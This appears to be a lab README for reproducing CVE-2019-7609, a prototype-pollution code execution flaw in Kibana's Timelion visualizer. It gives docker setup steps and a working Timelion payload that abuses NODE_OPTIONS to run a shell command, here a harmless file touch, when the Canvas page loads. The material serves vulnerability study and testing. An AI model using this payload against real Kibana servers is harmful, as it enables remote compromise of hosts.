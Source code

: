# Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本（Chinese Version）](README.zh-cn.md)
[PT-BR(Portuguese version)](./README.pt-br.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker-compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:

![](2.png)
